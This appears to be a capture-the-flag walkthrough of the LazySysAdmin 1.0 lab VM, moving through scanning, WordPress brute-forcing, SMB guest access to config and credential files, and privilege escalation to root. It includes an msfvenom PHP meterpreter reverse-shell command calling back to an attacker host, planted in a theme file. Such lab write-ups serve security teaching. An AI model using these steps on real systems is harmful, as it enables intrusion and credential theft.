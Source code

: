 <h1>LazySysAdmin 1.0 Walkthrough</h1>

Author Description: "Boot2root created out of frustration from failing my first OSCP exam attempt."

Difficulty: Beginner - Intermediate


Challenge Accepted...


Start things off with an Nmap scan (of course).

`nmap -Pn -sT -sV -O 192.168.17.139 -p1-65000`

![Image of Nmap](https://blu0.github.io/LSAWalkthrough/LSAnmap.png)

A few different places to start, but I'll take a look at the website first.

![Image of Site](https://blu0.github.io/LSAWalkthrough/LSAsite.png)

Nothing really jumps out after looking around for a bit, so time for some more enumeration.

I'll go with trusty old Nikto here.

`nikto -h 192.168.17.139`
![Image of Nikto](https://blu0.github.io/LSAWalkthrough/LSAnikto.png)

So looking through the results, there are quite a few things to check here.
Robots.txt shows the same directories as the Nikto scan.
The `/old/` and `/test/` directories show nothing.
Poked at `/myphpadmin/` but it requires a password. A few guesses proved useless... meh, moving on for now.
There is a WordPress site, but nothing seems to load. Who cares? I’m going to add `/wp-admin/` anyway and see if there is a login

Voila!

![Image of Wp-admin](https://blu0.github.io/LSAWalkthrough/LSAwp.png)

WordPress looks the most viable way in and would be a quick reverse shell if I can work my way in.
It's time for some WPScan to see what usernames are there.
![Image of WPscan](https://blu0.github.io/LSAWalkthrough/LSAwpscane.png)
![Image of WPscan2](https://blu0.github.io/LSAWalkthrough/LSAwpscanadmin.png)

So we have Admin and nothing else. Ok then.
Trying some WPScan Brute Force, I scraped the site with Cewl
`cewl -m 5 http://192.168.17.139/wordpress -w lazycewl.txt`
Then ran it through some mutations with John The Ripper
`john --wordlist=/root/lazycewl --rules --stdout > lazymutate.txt`
And even tried rockyou for a few minutes before cancelling it
wpscan –u http://192.168.17.139/wordpress –wordlist lazymutate.txt –username admin
Maybe the password is somewhere else...

Time to check the SMB port and see if there is any relevant data to be found.
`enum4linux -a 192.168.17.139`

![Image of Enum4Linux](https://blu0.github.io/LSAWalkthrough/LSAenum4linux.png)

share$ looks interesting
connect as guest

![Image of SMBClient](https://blu0.github.io/LSAWalkthrough/LSAsmbclient.png)

No problem listing

![Image of SMBClient2](https://blu0.github.io/LSAWalkthrough/LSAsmbclient2.png)


Get command works, grabbed the wp-config.php file

![Image of wp-config](https://blu0.github.io/LSAWalkthrough/LSAwp-config.png)



The password works, now time for reverse shell

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.17.141 LPORT=4444 -f raw > shell.php`

A little touch up on the format (remove leading // and add ?> to the end), then add to footer.php of theme

![Image of footer](https://blu0.github.io/LSAWalkthrough/LSAfooter.png)


Get meterpreter ready

![Image of meterpreter](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter.png)


Now type run and reload the wordpress site

![Image of meterpreter2](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter2.png)



Shell is successful, getting some system info.
Tried the same password for root, but not working
Moved to /tmp and wget from my attack machine the linuxprivchecker.py script. Ran it, but found nothing obvious. Let’s poke around with what we already have and come back to it.
Maybe there is another user in the database

![Image of mysql](https://blu0.github.io/LSAWalkthrough/LSAmysql.png)

![Image of mysql2](https://blu0.github.io/LSAWalkthrough/LSAmysql2.png)

![Image of mysql3](https://blu0.github.io/LSAWalkthrough/LSAmysql3.png)

Nope, no other users
What other users are on the system?

![Image of passwd](https://blu0.github.io/LSAWalkthrough/LSApasswd.png)


Tried swiching to togie with the same password, no go.
Did I overlook something?
Yes, went back to the SMB share and grabbed deets.txt

![Image of deets](https://blu0.github.io/LSAWalkthrough/LSAdeets.png)

![Image of su](https://blu0.github.io/LSAWalkthrough/LSAsu.png)


Was able to switch to togie with the password, and see the user is in the sudo group

![Image of shadow](https://blu0.github.io/LSAWalkthrough/LSAshadow.png)

![Image of root](https://blu0.github.io/LSAWalkthrough/LSAroot.png)


Proof.txt found, plus I have the root password hash if I want to crack it later

